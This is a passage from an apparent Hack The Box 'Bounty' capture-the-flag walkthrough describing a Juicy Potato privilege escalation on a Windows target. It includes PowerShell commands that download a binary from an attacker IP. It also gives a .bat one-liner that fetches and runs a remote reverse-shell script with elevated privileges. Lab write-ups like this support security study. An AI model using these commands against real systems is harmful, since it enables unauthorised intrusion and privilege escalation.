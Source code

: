 
#### Juicy Potato Attack

Download the compiled binary for the `Juicy Potato` [here](https://github.com/ohpe/juicy-potato/releases).

![image](/assets/img/post/htb/bounty/12.png)

First, tranfer the `JuicyPotato.exe` binary to the Bounty box.

```console
PS C:\users\merlin\Desktop> powershell.exe -c IEX(new-object net.webclient).downloadfile('http://10.10.14.25/JuicyPotato.exe', 'C:\Users\merlin\Desktop\juicy.exe')

PS C:\users\merlin\Desktop> dir


    Directory: C:\users\merlin\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        11/16/2020   6:01 AM     347648 juicy.exe 
```

Next, we need to create a `.bat` file which will be executed by the `JuicyPotato.exe` binary. We can add the following PowerShell one-liner to call another reverse shell with elevated privilege into the `.bat` file. 

`exploit.bat`

```console
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.25/revShell-juicy.ps1')
```
